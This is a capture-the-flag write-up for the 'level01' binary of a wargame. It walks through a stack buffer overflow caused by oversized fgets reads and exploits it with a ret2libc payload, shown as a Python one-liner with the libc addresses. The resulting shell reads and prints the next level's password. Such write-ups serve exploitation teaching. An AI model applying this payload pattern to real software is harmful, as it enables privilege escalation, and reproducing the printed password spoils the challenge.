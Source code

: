 # level01

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```

<hr>

## Solution

From the [disassembled binary](./source.s) we can understand, that there is no shell callers.

Let's look at the [source](./source.c) code:
```c
char a_user_name[100];
...
int main() {
    ...
    char pass[64];
    ...
    fgets(a_user_name, 0x100, stdin);
    ...
    fgets(pass, 0x64, stdin);
    ...
}
```

We see, that in both cases `fgets` tries to read more characters than the size of a buffer.

So, we're going to use `ret2libc` by overflowing `pass` array.

First, we need the address of a `system` and `/bin/sh` string:
```bash
(gdb) info proc map
process 1855
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
         0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

To overwrite `main`'s return address, we need to pass the following payload to the `pass` array:
```
64 bytes to fill array + 
 4 bytes to fill int passed +
 4 bytes to fill saved ebx +
 4 bytes to fill saved edi +
 4 bytes to fill saved ebp +
 4 bytes to overwrite return address of main +
 4 bytes to fill return address of the system +
 4 bytes to pass argument to system ('/bin/sh')
 = 92 bytes
```

To overflow `pass` array, we need to pass username validation, so we must pass `dat_wil\n` first, to trigger the first `fgets` to read only 8 bytes and stop.

Now, let's exploit:
```bash
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "X" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "X" * 4 + "\xf7\xf8\x97\xec"[::-1]'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
whoami
level02
pwd
/home/users/level01
cd ../level02
ls -la   
total 21
dr-xr-x---+ 1 level02 level02   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level02 level02  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level02 level02 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
-rw-r--r--+ 1 level02 level02   41 Oct 19  2016 .pass
-rw-r--r--  1 level02 level02  675 Sep 10  2016 .profile
cat .pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

## References
- [Stack overflow preparation](https://snovvcrash.rocks/2019/10/20/classic-stack-overflow.html)
- [ret2libc](https://wiki.bi0s.in/pwning/return2libc/return-to-libc/)
- [RELRO and why rewriting GOT through global array here is not possible](https://ctf101.org/binary-exploitation/relocation-read-only/)

